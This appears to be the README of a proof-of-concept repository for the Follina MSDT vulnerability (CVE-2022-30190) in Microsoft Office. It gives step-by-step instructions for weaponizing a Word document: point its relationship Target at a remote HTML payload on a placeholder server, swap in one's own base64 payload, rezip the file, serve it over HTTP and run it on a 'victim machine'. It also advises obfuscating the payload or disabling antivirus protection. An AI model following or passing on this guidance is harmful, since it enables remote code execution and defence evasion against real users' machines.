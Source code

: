 # POC-msdt-Follina

OK, as you know, or don't know, CVE-2022-30190 vulnerability can be described as like an attacker makes some MS Office, puts inside it's structure some link ( html ), and with the help of that, he manage run a malicious code. OLE object (word/_rels/document.xml.rels)
<br>
Data phat puts inside, may describe link in the tags with attributes "TYPE=" and "Target=". Link at the target attribute takes to the HTML, which in our case is our PAYLOAD, so that triggers the MSDT protocol. For example -- > "Target="http://Server-Host-Payload/Payload.html".

Now, when opened, the attacker document start to run, and trigger the MSDT.
The document can run even in ProtectedMode, and more - You dont even need macros enabled.

You can Modifiy the Payload at www, and insert what ever you want, just to check it on your victim machine.
For example --- > After edit the file with Gedit, at [char]34+'[Some/Base64/Syntax/', you can replace it with another Payload of yours.


This Document is already put together, just for the POC, so all you have to change is the Payload script, which in our case is the 'index.html' site, which holds inside of it a '<script>' tags that stored our Payload, and secondly, at /doc/word/_rels directory, there is a file named 'document.xml.rels. Edit it, and replace the '{YourServerHere}' with yours.

  
 After made all of that, just rezip the doc file, you can use 7-zip of whatever you like, open a python server, and good luck. Was Tested on  Microsoft Office Document 2007 with no problems, tell me if you managed to get it work on new versions.
  
  For now, dont forget to de-active the real time protection/firewall, else you can obfuscate your PAYLOAD, but for this is all for now.
  # Educational Purpose Only!
  ![POC-test](https://user-images.githubusercontent.com/90532971/172916363-51b0b457-fb9a-44a2-994d-0f396c07e547.gif)

  # Usage
  Made a little py script which can help for these who have a little trouble.
  1. Put your local machine ip, with 'http' where the payload is, for example: http://Server:Port/Pay.html
  2. choose a command to be executed, for example: "notepad" or using ps scripts.
*Notice: When running the py script, you cannot run it again on the same 'www' directory and 'doc'.
  if you want to use it again, copy the  inside 'BackUp' directory again, and run the py again.
  
